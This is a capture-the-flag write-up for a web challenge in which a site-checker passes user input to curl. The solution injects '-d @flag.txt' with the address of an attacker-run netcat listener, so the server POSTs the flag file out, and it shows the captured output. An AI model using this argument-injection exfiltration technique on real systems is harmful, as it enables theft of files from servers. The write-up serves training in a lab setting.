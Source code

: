 # Connect

Author: `Mr. Blade`

## Description

I built a tool to test if websites are alive. Can you test it for me?

Note: the flag is located in /flag.txt

## Dev Notes

<b>SOURCE CODE IS PROVIDED</b><br>
All files in `src/` are to be included in the challenge

Start: `make run`

Stop: `make stop`

## Solution

curl allows for the upload of file data. We can abuse this as neither `-` nor `@` are filtered.

On a publicly-facing server, start an nc server:

```bash
nc -nvlp 1337
```

Then, on the web page, delete the check for valid URL:

```js
try {
  new URL(host);
} catch {
  return output.innerHTML = "Illegal Characters Detected";
}
```

Finally, we trick curl into uploading data using `-d @file` to POST the content of `file` to our malicious server. We submit the following "IP" (crafted payload) to check:

```bash
-d @flag.txt http://172.17.0.1:1337
```

This causes the following data to be POST'd to our nc session:

```
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 172.17.0.3.
Ncat: Connection from 172.17.0.3:37624.
POST / HTTP/1.1
Host: 172.17.0.1:1337
User-Agent: curl/7.64.0
Accept: */*
Content-Length: 42
Content-Type: application/x-www-form-urlencoded

gigem{p00r_f1lt3rs_m4k3_f0r_p00r_s3cur1ty}
```
